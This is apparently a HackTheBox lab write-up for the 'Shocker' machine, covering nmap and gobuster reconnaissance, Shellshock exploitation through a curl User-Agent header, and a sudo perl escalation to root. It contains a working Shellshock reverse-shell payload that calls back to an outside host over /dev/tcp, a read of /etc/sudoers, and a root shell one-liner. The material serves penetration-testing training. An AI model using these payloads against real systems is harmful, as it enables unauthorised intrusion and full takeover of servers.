

# Shocker-HTB-Shellshock-Exploitation-to-Root-Access

Multi-stage attack chain demonstrating reconnaissance, web directory enumeration, Shellshock exploitation for initial access, and privilege escalation to root on a vulnerable Linux web server from HackTheBox.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~1-2 hours |
| Skill Level | Beginner-Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Nmap]]
- [[tools/Gobuster]]

### Target Environment

- Linux web server with Apache and CGI scripts
- Open ports for HTTP (80) and RPC (111)
- Vulnerable to Shellshock (Bash < 4.3)

### Initial Access Requirements

- Network connectivity to target IP
- Attacker machine with netcat listener for reverse shell
- No prior credentials needed

## Detailed Attack Procedures

### Step 1: Perform Basic Port Scan with Service Enumeration
procedure: [[procedures/basic-port-scan-with-service-enumeration]]

**Objective**: Identify open ports and services on the target to discover potential attack vectors like web services.

**Instructions**: Run an Nmap scan to enumerate ports 1-1024 and detect service versions using [[commands/nmap-port-scan-with-banner-enumeration]]:

```bash
nmap -sV 10.10.10.10
```

Review the output for open ports such as 80 (HTTP) and 111 (RPC), which indicate a web server and potential NFS shares.

**Expected Output**: List of open ports with service details, e.g., PORT 80/tcp open http Apache httpd.

**Success Indicators**:
- Open HTTP port (80) detected
- Service versions identified for further targeting

### Step 2: Brute Force Directories on Web Application with Extensions
procedure: [[procedures/directory-brute-force-web-app-with-extensions-gobuster]]

**Objective**: Discover hidden directories and files on the web server, focusing on CGI scripts in /cgi-bin/.

**Instructions**: Use Gobuster to brute force directories and files with relevant extensions like .sh, .php based on the Apache server. Execute [[commands/gobuster-directory-brute-force-with-extensions]]:

```bash
gobuster dir -w /opt/SecLists/Discovery/Web-Content/common.txt -u http://10.10.10.10 -f -e -x 'php,txt,html,sh'
```

Look for 403 Forbidden responses on /cgi-bin/ indicating potential CGI vulnerabilities.

**Expected Output**: Discovered paths like /cgi-bin/ (Status: 403) and /index.html (Status: 200).

**Success Indicators**:
- /cgi-bin/ directory found
- Potential script files enumerated

### Step 3: Exploit Shellshock Vulnerability for Reverse Shell
procedure: [[procedures/exploit-shellshock-vulnerable-web-app]]

**Objective**: Leverage Shellshock in the CGI script to execute a reverse shell payload and gain initial foothold.

**Instructions**: Test for Shellshock by sending a sleep payload via curl to vulnerable headers like User-Agent using [[commands/curl-exploit-shellshock-vulnerability]]:

```bash
curl http://10.10.10.10/cgi-bin/user.sh -H 'User-Agent: () { :; }; /bin/sleep 10'
```

If delayed, replace with reverse shell payload: [[codes/shellshock-payload-template]] combined with [[codes/bash-tcp-reverse-shell]]. Set up netcat listener (nc -lvnp 443) and execute:

```bash
curl http://10.10.10.10/cgi-bin/user.sh -H 'User-Agent: () { :; }; bash -c "bash -i >& /dev/tcp/10.10.14.1/443 0>&1"'
```

**Expected Output**: Reverse shell connection established, command prompt from target.

**Success Indicators**:
- 10-second delay confirms vulnerability
- Reverse shell connects to listener

### Step 4: Escalate Privileges to Root Using Sudo Perl
procedure: [[procedures/spawn-root-shell-using-sudo-perl]]

**Objective**: Exploit sudo permissions on perl to spawn a root shell.

**Instructions**: Check sudo privileges with [[commands/list-sudo-privileges]]:

```bash
sudo -l
```

If perl is allowed, view sudoers for confirmation using [[commands/view-sudoers-configuration]]:

```bash
cat /etc/sudoers
```

Then spawn root shell with [[commands/perl-spawn-root-shell-using-sudo]]:

```bash
sudo /usr/bin/perl -e 'system("/bin/bash")'
```

**Expected Output**: Root prompt (root@Shocker:/#).

**Success Indicators**:
- Sudo allows perl execution
- Root shell obtained

## Attack Chain Summary

### Key Achievements

1. Identified web server via port scan
2. Discovered CGI directory for exploitation
3. Gained initial shell via Shellshock
4. Escalated to root using sudo perl

---

*Last updated: 2023-05-29T16:48:53.162677+00:00*
